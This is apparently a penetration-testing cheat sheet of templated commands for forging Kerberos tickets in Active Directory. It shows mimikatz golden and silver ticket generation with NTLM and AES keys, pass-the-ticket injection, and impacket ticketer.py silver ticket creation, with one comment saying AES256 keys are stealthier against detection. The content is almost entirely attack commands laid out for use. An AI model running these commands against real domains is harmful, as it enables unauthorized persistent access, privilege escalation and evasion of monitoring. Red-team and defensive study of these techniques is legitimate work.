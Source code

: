 ### to generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>`

### Inject TGS with mimikatz
- `mimikatz # kerberos::ptt <ticket_kirbi_file>`

## golden_ticket

### to generate the TGT with NTLM
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>`

### to generate the TGT with AES 128 key
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>`

### to generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
- `mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>`

### inject TGT with mimikatz
- `mimikatz # kerberos::ptt <ticket_kirbi_file>`

---
# ticketer.py
- service: kerberos
- tactics: credential_access
- suites: impacket

## silver_ticket

### to generate the TGS with NTLM
- `python ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### to generate the TGS with AES key
- `python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>`

### set the TGT for impacket use
- `export KRB5CCNAME=<TGT_ccache_file>`
